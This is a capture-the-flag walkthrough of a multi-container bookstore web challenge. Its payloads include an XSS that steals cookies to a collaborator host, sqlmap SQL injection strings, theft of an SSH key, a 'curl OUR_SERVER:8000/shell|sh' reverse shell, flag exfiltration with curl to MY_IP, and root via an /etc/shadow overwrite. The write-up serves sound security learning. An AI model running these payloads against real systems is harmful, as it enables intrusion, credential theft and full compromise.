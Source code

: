 In this challenge by John Hammond we are presented with a web site where we can browse book by category, author, and so on.

![[Screenshot 2024-04-05 alle 08.49.57.png]]![[Screenshot 2024-04-05 alle 08.50.03.png]]

We also have a login form but registration is not active at the moment.

![[Screenshot 2024-04-05 alle 08.51.15.png]]

Basic tampering with login form does not reveal anything, so we start with basic recon using tools like `gobuster`. 

```
/authors              (Status: 200) [Size: 3773]
/categories           (Status: 200) [Size: 7751]
/dashboard            (Status: 302) [Size: 235] [--> /login?next=%2Fdashboard]
/login                (Status: 200) [Size: 3332]
/logout               (Status: 302) [Size: 229] [--> /login?next=%2Flogout]
/register             (Status: 200) [Size: 3179]
/sitemap.xml          (Status: 200) [Size: 915]
```

We observe that we can browse

 - by category `/categories/38940c5d-6332-4328-84b3-2acef194cb8b`
 - by book inside a given category: `/categories/38940c5d-6332-4328-84b3-2acef194cb8b/books/1`

Looking at `/sitemap.xml` we notice eight categories, while in home page we only had seven. If we try to access the "hidden" category `/categories/2d340d76-cc36-4554-9d40-577e164603dd` we get an error message:

```json
{
  "error" : "Sorry, these items are not available in your region. This area is only accessible by local staff or specific geographic locations."
}
```

We can bypass this restriction adding an `X-Forwarded-For: 127.0.0.1` header.

![[Screenshot 2024-04-05 alle 09.18.49.png]]

Moreover, we can edit books with id 7 and 8:

![[Screenshot 2024-04-05 alle 09.19.55.png]]

With this edit functionality we have a classic XXE vulnerability (that can give us /etc/hosts) and a SSRF in the coverImageUrl
With the coverImageUrl set to `http://api/swagger.json` we discover endpoints like 

```
/categories/2d340d76-cc36-4554-9d40-577e164603dd/books/7/submit-ticket-request-for-review
```

So our idea is:

1. edit book id 7 with a XSS parameter

```xml
<book>
    <title>Test Book A</title>
    <author>Alan Turing</author>
    <description>&lt;img src=x onerror="this.src='//COLLAB/?'+btoa(document.cookie); this.removeAttribute('onerror');"&gt;</description>
    <price>1.0</price>
    <publishDate>2024-02-29</publishDate>
    <coverImageUrl>http://example.com/cover7.jpg</coverImageUrl>
</book>
```

2. edit book id 8 with 
   
```xml
   <coverImageUrl>http://api/categories/2d340d76-cc36-4554-9d40-577e164603dd/books/7/submit-ticket-request-for-review</coverImageUrl>
```


Our collaborator receives a GET request with session cookies:
```
GET /?c2Vzc2l... HTTP/1.1
```

With this cookie we have access to the book store dashboard

![[Screenshot 2024-04-05 alle 09.27.23.png]]

where we see two functionalities: edit book, and apparently run commands on the db server (but we need an SSH private key which we do not have).

We probably have a SQL injection with requests like:

```
POST /add-book HTTP/1.1
title=1&category_id=2&author_id=3&description=4&price=1&cover_image_url=&publish_date=2024-04-05"

{"error":"Error: 1064 (42000): You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near '\"2024-04-05\"\",TRUE)' at line 1"}
```

Easiest way to proceed is saving a complete HTTP request to `/add-book` endpoint and run a `sqlmap -r --batch`:

```
sqlmap identified the following injection point(s) with a total of 640 HTTP(s) requests:
---
Parameter: title (POST)
    Type: boolean-based blind
    Title: MySQL AND boolean-based blind - WHERE, HAVING, ORDER BY or GROUP BY clause (ELT)
    Payload: title=1" AND ELT(4932=4932,9451) AND "Wduy"="Wduy&category_id=2&author_id=3&description=4&price=1&cover_image_url=&publish_date=2024-04-05

    Type: error-based
    Title: MySQL >= 5.6 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (GTID_SUBSET)
    Payload: title=1" AND GTID_SUBSET(CONCAT(0x717a7a6b71,(SELECT (ELT(1936=1936,1))),0x7171627a71),1936) AND "jhTF"="jhTF&category_id=2&author_id=3&description=4&price=1&cover_image_url=&publish_date=2024-04-05

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: title=1" AND (SELECT 9182 FROM (SELECT(SLEEP(5)))unLE) AND "Wdxu"="Wdxu&category_id=2&author_id=3&description=4&price=1&cover_image_url=&publish_date=2024-04-05
```

Armed with this knowledge we get db container root ssh key: `sqlmap -r req.txt  --batch --file-read /root/.ssh/id_rsa` and we can get a reverse shell on it: 

```
POST /database-debug HTTP/1.1
...
ssh_private_key=-----BEGIN+OPENSSH+PRIVATE+KEY-----...&command=id


{"message":"Command ran successfully, output: b'uid=0(root) gid=0(root) groups=0(root)\\n'"}
```

Here we get an api admin token:

```bash
root@db:~# cat .api_admin_token.txt
JVU...
```

Now for simplicity we download a static curl binary on db container and we attack the `/other/debug-exec` endpoint on api container:

```bash
wget https://github.com/moparisthebest/static-curl/releases/download/v8.7.1/curl-amd64
chmod +x curl-amd64

./curl-amd64 -H 'Content-Type: application/json' --data '{"command":"curl OUR_SERVER:8000/shell|sh","admin_token":"JVU..."}' http://api/other/debug-exec
```


Once we have a reverse shell on api container we look at `.bash_history` where we get ssh password for accessing the main www container

```bash
root@api:~# cat .bash_history
ls
whoami
ls
cd /tmp
pwd
sshpass -p ****** ssh www-admin@www
cd
date
ls
```

We now have a couple of options:

```
www-admin@www:~$ ps -edaf
UID          PID    PPID  C STIME TTY          TIME CMD
root           1       0  0 06:48 ?        00:00:00 /bin/sh -c service ssh start && .echo "; use 'www', 'api',
root           7       1  0 06:48 ?        00:00:00 su www-admin -c python3 -m flask run --host=0.0.0.0 --port
root           8       1  0 06:48 ?        00:00:01 python3 -m http.server --bind 127.0.0.1 80
www-adm+      15       7  1 06:48 ?        00:01:04 python3 -m flask run --host=0.0.0.0 --port=5000
root          18       1  0 06:48 ?        00:00:00 sshd: /usr/sbin/sshd [listener] 0 of 10-100 startups
root        6844      18  0 07:58 ?        00:00:00 sshd: www-admin [priv]
www-adm+    6851    6844  0 07:58 ?        00:00:00 sshd: www-admin@pts/0
www-adm+    6852    6851  0 07:58 pts/0    00:00:00 -bash
www-adm+    6859    6852  0 07:59 pts/0    00:00:00 ps -edaf


www-admin@www:~$ sudo -l
[sudo] password for www-admin:
Matching Defaults entries for www-admin on www:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin,
    use_pty

User www-admin may run the following commands on www:
    (ALL) /usr/bin/curl 127.0.0.1/*
```

1. we have a web server running as root listening on `127.0.0.1:80`. The document root is `/app`, where we have write permissions, so we can simply link /root/flag.txt and grab the flag:
```bash
cd /app
ln -s /root/flag.txt
curl 127.0.0.1/flag.txt
```

2. we can leverage curl to exfiltrate the root flag with a command like:
   `sudo curl 127.0.0.1/=@/root/flag.txt -F data=@/root/flag.txt MY_IP:8000`

3.  we can use curl to overwrite `/etc/shadow` and get a shell as root:
```bash
cd /app
ln -s /etc/shadow
curl 127.0.0.1/shadow -o pwn
sed -i -e 's/\*//' pwn
sudo curl 127.0.0.1/pwn -o /etc/shadow
su -
root@www:~# id
uid=0(root) gid=0(root) groups=0(root)
```

![[Screenshot 2024-04-04 alle 22.37.16.png]]